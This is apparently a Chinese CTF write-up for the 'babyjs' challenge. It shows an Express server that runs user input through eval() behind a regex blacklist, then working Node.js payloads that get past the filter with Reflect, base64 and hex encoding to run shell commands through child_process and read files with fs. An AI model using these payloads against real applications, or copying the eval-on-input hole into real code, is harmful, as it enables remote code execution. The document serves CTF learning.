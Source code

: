 # babyjs

hint：https://www.anquanke.com/post/id/237032

首先访问`/source`然后点击图片，得到源码

```javascript
const express = require('express')
const bodyParser = require('body-parser')
const path = require('path');
const app = express()

function bypass(code) {
  const re = new RegExp(/exec|\\|cat|\+|`|eval|includes|Buffer|\[/i);
  return re.test(code);
}

app.use(bodyParser.urlencoded({ extended: true }))
app.use("/template",express.static(path.join(__dirname, '/template')))

app.get('/',function (req,res){
    res.send("访问/source得到源码,have fun!");
  }
)

app.get('/source', function(req, res) {
  res.sendFile(path.join(__dirname + '/template/source.html'));
});



app.post('/', function (req, res) {
  let code = req.body.code;
  if (bypass(code)) {
    res.send("简单的过滤，尝试绕过一下吧");
  } else {
    try{
      res.send(eval(code));
    }
    catch(e){
      res.send("error!");
    }
  }
})

app.listen(3000);
```



发现存在一个`res.send(eval(code))`，可以执行命令。但存在一个bypass函数对code进行过滤

过滤了：`exec、\、cat、+、反引号、eval、includes、Buffer、[`

推荐一个测试正则匹配的网站：https://hiregex.com/

## 解法一

`通过global全局对象加载模块`来调用子进程执行命令：

```javascript
global.process.mainModule.constructor._load('child_process').execSync('ls');
```

看懂文章就可以了，很简单，首先获取eval和Buffer，最后通过base64执行命令：

```javascript
eval(Buffer.from('Z2xvYmFsLnByb2Nlc3MubWFpbk1vZHVsZS5jb25zdHJ1Y3Rvci5fbG9hZCgiY2hpbGRfcHJvY2VzcyIpLmV4ZWNTeW5jKCJ3aG9hbWkiKQ==','base64').toString())
```

最后绕过过滤构造出来为

```javascript
//base64
Reflect.get(global, Reflect.ownKeys(global).find(x=>x.startsWith('eva')))(Reflect.get(Object.values(Reflect.get(global, Reflect.ownKeys(global).find(x=>x.startsWith('Buf')))),1)('Z2xvYmFsLnByb2Nlc3MubWFpbk1vZHVsZS5jb25zdHJ1Y3Rvci5fbG9hZCgiY2hpbGRfcHJvY2VzcyIpLmV4ZWNTeW5jKCJ3aG9hbWkiKQ==','base64').toString())
//16进制
Reflect.get(global, Reflect.ownKeys(global).find(x=>x.startsWith('eva')))(Reflect.get(Object.values(Reflect.get(global, Reflect.ownKeys(global).find(x=>x.startsWith('Buf')))),1)('676c6f62616c2e70726f636573732e6d61696e4d6f64756c652e636f6e7374727563746f722e5f6c6f616428226368696c645f70726f6365737322292e6578656353796e63282277686f616d692229','hex').toString())
```

这里其实可以直接使用Object.values：

```javascript
Reflect.get(Object.values(require('child_process')),8)('whoami')
Reflect.get(Object.values(global.process.mainModule.constructor._load('child_process')),8)('whoami')
```

也很巧妙的

## 解法二

可以直接使用fs模块读取文件，不要觉得只能用命令执行，要巧用其他的一些模块

```javascript
require('fs').readdirSync('./')
require('fs').readFileSync('flag')
```

